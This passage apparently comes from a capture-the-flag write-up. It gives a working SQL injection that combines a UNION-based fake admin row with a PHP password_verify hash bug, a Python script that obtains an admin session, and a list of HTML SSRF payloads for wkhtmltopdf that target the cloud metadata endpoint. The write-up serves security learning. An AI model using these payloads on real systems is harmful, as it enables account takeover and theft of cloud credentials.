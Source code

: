 ```php
SELECT *
FROM `users`
WHERE `username` = 'a'
AND 'a'/**/UNION/**/SELECT/**/null,'nonexistsuser','$2y$10$6b_RGQsS5JHrrWReaDLP2_4TsyPVO5k4GVD_ah1TXGWGKDt7YzJDS',null,'admin'#-- = 'sanized' LIMIT 1
```

To bypass this, we can use PHP bug to bypass `password_verify` without using dot such as `$2x$08$00000$` and `$2y$10$am$2y$10$am`. You can read it [here](https://bugs.php.net/bug.php?id=81744) and [here](https://github.com/php/php-src/security/advisories/GHSA-7fj2-8x79-rjf4). Below was the final python script for SQL injection.

```python
import requests
import urllib

url = "http://192.168.8.79:29458"
session = requests.Session()
headers = {
	'X-Requested-With': 'XMLHttpRequest',
	'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36',
	'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
}

def getAdminSession():
	data = {
		"username": "a",
		"password": "notvalidpassword",	
        "'a'/**/UNION/**/SELECT/**/null,'nonexistsuser','$2x$08$00000$',null,'admin'#--": "sanitized"
	}
	session.post(url + "/login", headers=headers, data=data)

getAdminSession()
```
---
## SSRF

Snappy use `wkhtmltopdf` which is webkit based to convert HTML to PDF and it very excel in its job. The only problem with `wkhtmltopdf` is it was vulnerable to [SSRF](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4875) vulnerability. Attacker can render internal pages or make internal request using certain HTML tag such as `<img>` and `iframe` (any HTML tag that can load external resources also works). Example:

```html
<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>
<object data="http://169.254.169.254/latest/meta-data/" width="400" height="300" type="text/html"></object>
<img src="http://169.254.169.254/latest/meta-data/"/>

%% This also works %%

<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"><image xlink:href="http://169.254.169.254/latest/meta-data/" height="200" width="200"/></svg>
<embed src="http://169.254.169.254/latest/meta-data/" />
<link href="http://169.254.169.254/latest/meta-data/" rel="stylesheet" />
<script src="http://169.254.169.254/latest/meta-data/"></script>
<audio control src="http://169.254.169.254/latest/meta-data/"></audio>
```
